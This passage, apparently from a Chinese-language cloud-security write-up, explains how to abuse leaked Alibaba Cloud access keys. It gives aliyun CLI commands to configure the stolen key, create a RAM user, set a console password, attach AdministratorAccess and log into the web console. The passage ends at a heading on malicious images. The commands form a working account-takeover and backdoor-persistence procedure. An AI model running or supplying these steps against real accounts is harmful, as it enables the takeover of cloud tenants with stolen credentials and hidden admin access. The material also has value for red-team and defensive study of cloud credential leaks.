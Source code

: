 首先在aliyun cli中配置泄露的AKID等信息

##### 2.3.1、GetAccountAlias接口

通过调用GetAccountAlias接口查看账号别名

> 官方文档地址：https://help.aliyun.com/document_detail/28737.html

```Nginx
aliyun ram GetAccountAlias
```

![image-20220407173618740](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407173618740.png)

##### 2.3.2、CreateUser

调用CreateUser接口创建一个RAM用户

```Nginx
aliyun ram CreateUser --UserName xxx
```

![image-20220407173649000](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407173649000.png)

##### 2.3.3、CreateLoginProfile

调用CreateLoginProfile接口为一个RAM用户启动Web控制台登录

```Nginx
aliyun ram CreateLoginProfile --UserName xxx --Password xxxx
```

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407173657197.(null))

##### 2.3.4、AttachPolicyToUser

调用AttachPolicyToUser接口为指定用户添加权限

```Nginx
aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName xxx
```

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407173701279.(null))

##### 2.3.5、登录控制台

在登录控制台的时候我们需要在用户名的后面加上一个@符号，后面跟上域名等，那么此时我们没有域名应该如何登陆？

我们只需要使用以下命令获取到ID放在@符号后边即可

```Nginx
aliyun ram GetAccountAlias
```

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407173705690.(null))

![image-20220407173729483](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407173729483.png)

### 3、恶意的镜像

